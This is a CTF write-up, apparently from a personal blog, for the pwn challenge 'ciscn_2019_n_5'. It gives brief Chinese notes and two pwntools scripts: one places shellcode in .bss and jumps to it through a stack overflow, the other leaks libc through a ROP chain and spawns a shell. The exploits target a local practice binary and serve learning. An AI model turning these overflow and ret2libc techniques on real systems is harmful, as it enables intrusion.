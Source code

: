 ```yaml
---
title: 'ciscn_2019_n_5'
date: 2023-12-30 13:00:00 +0800
categories: [ret2shellcode,leak_libc]
tags: [ctf,pwn]
---
```


<img src="../assets/img/old_imgs/image-20231228140033033.png" alt="image-20231228140033033" style="zoom: 80%;" />

![image-20231228140132298](../assets/img/old_imgs/image-20231228140132298.png)

1. 程序没有开启`NX`保护,并且是`RWX`权限可以运行段上代码
2. 预期解:往`name`中写入`shellcode`,再利用`get`转跳到相应的`.bss`段上运行`shellcode`
3. 非预期解:通过`get`泄露`puts()`地址,泄露`libc`地址,劫持程序流得到`shell`.注意这里`64`位`($rdi)`和`32`位程序传参的不同.

```python
from pwn import*
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
p=process('./ciscn_2019_n_5')
p.recvuntil(b'name\n')
p.sendline(shellcode)
p.recvuntil(b'me?\n')
name=0x601080
payload=b'a'*0x28+p64(name)
p.sendline(payload)
p.interactive()
```

```python
from pwn import *
#io = gdb.debug('./ciscn_2019_n_5','b *0x40067a')
context.log_level = 'debug'
io = process('./ciscn_2019_n_5')
#io = gdb.debug('./ciscn_2019_n_5','b main')
elf = ELF('./ciscn_2019_n_5')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
padding = 0x20
#泄露libc
io.sendlineafter('tell me your name\n',b'1')
#padding+pop_rdi+puts_got+puts_plt+main_addr
payload1 = b'A'*0x28+p64(0x0000000000400713)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter('What do you want to say to me?\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr ->',hex(puts_addr))
io.sendlineafter('tell me your name\n',b'1')
#payload构造
Liboffset = puts_addr-Lib.sym['puts']
sys_addr = Lib.sym['system']+Liboffset
bin_sh_addr = next(Lib.search(b'/bin/sh'))+Liboffset
payload2 = b'A'*(0x28)+p64(0x0000000000400713)+p64(bin_sh_addr)+p64(0x00000000004004c9)+p64(sys_addr)
io.sendlineafter('What do you want to say to me?\n',payload2)
io.interactive()
```
